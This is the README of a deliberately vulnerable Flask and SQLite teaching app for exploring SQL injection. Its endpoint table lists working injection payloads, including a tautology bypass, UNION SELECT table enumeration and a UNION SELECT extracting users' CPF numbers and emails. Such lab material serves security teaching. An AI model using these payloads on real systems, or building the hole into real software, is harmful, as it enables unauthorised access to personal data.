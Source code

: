 # This code was cloned from: <a href="https://github.com/guilatrova/flask-sqlinjection-vulnerable.git">This repo</a>. I made a copy of this code because I wanted to have multiple unsave code examples in the same repo.

# Flask Vulnerable to SQL Injection 💉🔓

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![try/except style: tryceratops](https://img.shields.io/badge/try%2Fexcept%20style-tryceratops%20%F0%9F%A6%96%E2%9C%A8-black)](https://github.com/guilatrova/tryceratops)
[![Open in Visual Studio Code](https://open.vscode.dev/badges/open-in-vscode.svg)](https://open.vscode.dev/guilatrova/flask-sqlinjection-vulnerable)

---

The purpose of this repository is to allow us to explore an API vulnerable to SQL Injection (using Python, Flask, and SQLite).

You're free to play with it as is, but you might have more fun doing it alongside me in a blog post: https://blog.guilatrova.dev/how-sql-injection-attack-works-with-examples/.

[![Open in Gitpod](https://gitpod.io/button/open-in-gitpod.svg)](https://gitpod.io/#https://github.com/guilatrova/flask-sqlinjection-vulnerable/)

You can play with the following endpoints (considering you're running on localhost):

| Endpoint                                                                                                                                                                                                                                                                                                                      | Description                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| [/challenges/111.111.111-11](http://localhost:5000/challenges/111.111.111-11)                                                                                                                                                                                                                                                 | Expected usage                                   |
| [/challenges/' or '1' = '1](http://localhost:5000/challenges/'%20or%20'1'%20=%20'1)                                                                                                                                                                                                                                           | Vulnerability proof                              |
| [/challenges/' AND '1' = '2' UNION SELECT name FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20='table'%20AND%20name%20NOT%20LIKE%20'sqlite_%)                                   | Breaks server                                    |
| [/challenges/' AND '1' = '2' UNION SELECT 'table_name', name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20'table_name',%20name%20FROM%20sqlite_master%20WHERE%20type%20=%20'table'%20AND%20name%20NOT%20LIKE%20'sqlite_%) | Queries all tables and fixes broken server       |
| [/challenges/' AND '1' = '2' UNION SELECT cpf, email FROM users; --](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20cpf,%20email%20FROM%20users;%20--)                                                                                                                                           | Use union select to query data from other tables |
